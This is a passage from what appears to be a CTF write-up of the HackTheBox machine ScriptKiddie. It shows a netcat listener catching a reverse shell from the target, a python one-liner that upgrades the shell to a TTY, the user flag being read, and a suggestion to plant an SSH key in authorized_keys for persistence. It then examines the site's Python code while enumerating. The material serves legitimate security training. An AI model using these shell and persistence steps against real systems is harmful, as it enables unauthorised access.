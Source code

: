 But there’s shell at :`nc`

    oxdf@parrot$ nc -lvnp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52132 
    

The shell returns with no prompt, but if I enter Linux commands (like ) and hit enter, they execute:`id`

    id
    uid=1000(kid) gid=1000(kid) groups=1000(kid)
    

The shell is running as the kid user. I’ll upgrade my shell using Python to get a TTY:

    python3 -c 'import pty;pty.spawn("bash")'
    kid@scriptkiddie:~/.ssh$ ^Z
    [1]+  Stopped                 nc -lvnp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lvnp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    kid@scriptkiddie:~/.ssh$
    

I can grab :`user.txt`

    kid@scriptkiddie:~$ cat user.txt
    4cbc14d5************************
    

I could also write a public SSH key into , and then SSH into ScriptKiddie.`/home/kid/.ssh/authorized_keys`

## Shell as pwn

### Enumeration

#### kid’s Homedir

The code for the website is a Python app in :`/home/kid/html`

    kid@scriptkiddie:~/html$ ls
    __pycache__  app.py  static  templates
    

I noted above when looking for command injection vulnerabilities in the site that it threatened to “hack me back”. As kid, I can take a look at the code:

    def searchsploit(text, srcip):
        if regex_alphanum.match(text):
            result = subprocess.check_output(['searchsploit', '--color', text])
            return render_template('index.html', searchsploit=result.decode('UTF-8', 'ignore'))
        else:
            with open('/home/kid/logs/hackers', 'a') as f:
                f.write(f'[{datetime.datetime.now()}] {srcip}\n')
            return render_template('index.html', sserror="stop hacking me - well hack you back")
    